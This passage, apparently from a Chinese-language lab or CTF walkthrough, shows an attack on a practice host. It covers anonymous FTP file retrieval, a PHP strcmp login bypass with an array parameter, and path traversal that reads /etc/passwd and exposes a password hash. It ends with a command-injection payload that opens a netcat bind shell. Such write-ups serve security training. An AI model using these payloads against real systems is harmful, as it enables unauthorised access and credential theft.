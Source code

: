 ```
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> 
```
將 `index.php.bak` 與 `welcome.msg` 取出查看
```
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||33583|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      226.01 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (9.81 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||48470|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      446.90 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.60 KiB/s)
```
- index.php.bak:
![image](https://hackmd.io/_uploads/Hy2NyjFhyg.png)
> php-strcmp 可以被 bypass
- welcome.msg:
![image](https://hackmd.io/_uploads/BydIkot2Jg.png)

### 5. Bypass PHP strcmp
https://rst.hashnode.dev/bypassing-php-strcmp\
可以透過 empty array，`[]` bypass 驗證\
```
username=admin&password[]=chw
```
![image](https://hackmd.io/_uploads/ryejlitnyg.png)

### 6. Admin Page
http://192.168.111.101/admin/dashboard.php\
![image](https://hackmd.io/_uploads/HJwmGiY3yg.png)

其中 Logs 功能:\
![image](https://hackmd.io/_uploads/HJ0LGsFnJl.png)
嘗試 Path Traversal: `file=../../../../../etc/passwd`\
![image](https://hackmd.io/_uploads/rkMgQjKnyl.png)
> `webadmin`:`$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/`
>> 1. 嘗試 hashcat 爆破
>> 2. command injection:
>> - reverse shell 打不回來
>> - 使用 bind shell
>> `file=;nc -l -v -p 6666 -e /bin/sh`
